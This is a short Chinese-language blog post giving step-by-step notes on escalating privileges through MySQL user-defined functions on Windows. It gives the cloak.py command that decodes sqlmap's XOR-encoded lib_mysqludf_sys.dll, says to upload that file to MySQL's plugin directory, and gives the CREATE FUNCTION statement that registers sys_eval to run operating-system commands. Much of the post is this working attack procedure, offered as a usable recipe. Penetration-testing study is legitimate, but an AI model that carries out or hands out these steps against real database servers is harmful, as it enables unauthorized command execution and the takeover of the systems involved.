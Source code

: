 ```yaml
---
layout:     post
title:      windows mysql udf提权笔录
subtitle:   
date:       2019-02-26
author:     跳跳龙
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - mysql
    - udf
    
---
```


(文章版权归笔者跳跳龙所有，谢绝转载，请勿拾人牙慧)

1.解码sqlmap/udf 目录下的dll文件。

![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-01.jpg)

2.按照mysql的位数来确定。原文件是xor编码的，需要用sqlmap的解码工具。位置在sqlmap的extra目录下。

```
python cloak.py -d -i ../../udf/mysql/windows/64/lib_mysqludf_sys.dll_
```

3.解码完毕之后发现目录下多了一个dll文件 lib_mysqludf.dll。
4.将文件上传到mysql的安装目录下的plugin的目录下。

![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-02.jpg)

5.引入我们的dll文件。

```
create function sys_eval returns string soname 'lib_mysqludf_sys.dll'
```
其中，sys_eval函数是dll文件中提供的。具体的还有很多，如下：

```

strings udf.dll

```
![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-03.jpg)


![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-04.jpg)
这样就是引入成功了，这个时候sys_eval这个函数就是用户自定义的并且可以使用了。

6.test
![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-05.jpg)






